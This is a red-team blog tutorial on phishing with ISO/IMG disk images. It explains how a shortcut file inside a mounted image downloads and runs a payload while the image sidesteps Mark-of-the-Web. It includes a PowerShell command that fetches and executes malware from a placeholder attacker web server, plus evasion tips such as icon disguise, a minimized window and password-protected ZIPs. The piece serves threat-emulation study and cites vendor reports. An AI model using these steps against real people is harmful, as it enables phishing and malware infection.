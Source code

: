 ```yaml
---
title: Abusing ISO/IMG Files
author: Z0ldyck
date: 2022-08-17 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [REDTEAM]
---
```



<html>
<div dir="rtl" align="right">
<h3>السلام عليكم ورحمة الله وبركاته</h3>
</div>
</html>


# Introduction

Lately, I have been developing my custom tools and implementing/recreating some of the known techniques used by threat actors. Well, this post is not going to be focused on any specific tool but will showcase one technique that I enjoyed reimplementing and some advice for people who are looking to advance their work specifically for Red Teamers (It could help blue ppl, but I would assume they already do that). I think one of the biggest things that most red teamers (to be specific the ppl in my circle) are missing or not giving some time for is reading reports related to Threat Actors' new techniques. Most of these reports at the first sight might feel that the target audience is mostly Threat Hunters, but in reality, it will help both sides. One side can discover/identify these threats and the other can use them or even advance/change them to something even better, whatever the case is. My point is It doesn't matter what group you are in, reading them will 100% benefit you. I will suggest looking into reports related to Threat Actors from Mandiant/CrowdStrike. There is more, but these are faviourt ones


In this post, I will be going over one of the techniques that I see many threat actors using to compromise victims' machines. This technique is very well known for many blue teamers. You can find below a full map of the execution:

![](../../images/isoimg/1.png)

The attack is straightforward, we will be sending phishing emails that contain or provide a link to download a ZIP file. After decompressing the ZIP file the user would find an IMG/ISO file. A double click from the user will mount a disk containing an LNK file that will download our malicious payload and run it.

I will skip the email and the ZIP file part as these are not the main focus of this post (There is a ton of ways to deliver your files). First, create your malicious payload and host it on a web server, you can use your C2 web server or anything similar. Moving on to creating our LNK file, there is a lot of ways to create one. You can even use powershell/C# to create it, but we will just use the simple method cause why not :)


## LNK FILE

Create a shortcut of any app you have first, then open file properties. Check the image below:

![](../../images/isoimg/2.png)

Here is what you need to consider:

- Target → This is where you will put your command. You can use something like the command below to download and run your malicious payload:
```
powershell wget http://<your_webserver>/malware.exe -O C:\somewhere; malware.exe
```

(Note: Don’t use this command to deliver your payloads, it is not the best way and you will get caught immediately. This is just an example lol)

- Run → Set it to Minimized (Just trust me :p )

- File icon → I think you need to consider that. In the Shortcut section click on “Change Icon” and browse to “C:\Windows\System32\shell32.dll”. You will have a bunch of icons to choose from. I went with the text file icon.

## ISO FILE

This should be enough for the LNK file. Now let’s create the ISO file. I will be using AnyBurn to do this process, but you can use whatever you prefer. You might be wondering why would we go with an ISO/IMG file, the answer is simple users will double click it and a new CD Drive will be attached, and in some cases, it will bypass some security solutions. After creating the ISO you can just save it into an archive and somehow deliver it with some magic to the victim :p

In AnyBurn select “Create image file from files/folders”

![](../../images/isoimg/3.png)

In the new window add your folder/file and click on “Next”

![](../../images/isoimg/4.png)

Next, you will choose where to save your ISO file. By clicking “Create Now” your file will be created and saved in that destination.

![](../../images/isoimg/5.png)

![](../../images/isoimg/6.png)

## DEMO

Now all you need to do is save it in a ZIP file because there is a tone of solutions that started triggering ISO/IMG files. I would also suggest making a ZIP file protected with a password so these solutions wouldn’t be able to scan them (If that’s wrong correct me please!). Here is a demo of the whole process:


<html> 
<body> 
<video width="849" controls>
  <source src="../../images/isoimg/dev.mp4" type="video/mp4">
</video>
</body> 
</html>

I had to update this post because [Yasser](https://twitter.com/Yas_o_h) pointed out something really important that I missed mentioning which is why would we do this whole process. Microsoft introduced something called Zone Identifier Alternate Data Stream information or as known as Mark-of-the-Web (MOTW). In short words, MOTW is a security feature that was used by Internet Explorer to make saved webpages run in the security zone the page was saved from. Now it can create an alternate data stream (ADS) for any downloaded file. When downloading a file from the web, a `Zone.Identifier` will be created and it will add a ZoneID to the stream, this helps identify from which zone the file came. This matter to us because it could affect the execution of our attack, but why did that not happen?


The answer is simple alternate data streams are an NTFS feature. In other words, this means Zone Identifier cannot be created on other file systems. So what we did is saving our payload in a container (The ISO File). MOTW will not be flagged on the payloads inside the container.

I hope you enjoyed reading this post, I will be sharing more stuff (I don’t know why I am doing that at the end of my break lol)


## References

- https://www.crowdstrike.com/blog/weaponizing-disk-image-files-analysis/
- https://www.mandiant.com/resources/blog/tracking-apt29-phishing-campaigns


`Last Updated: 08/20/2022`
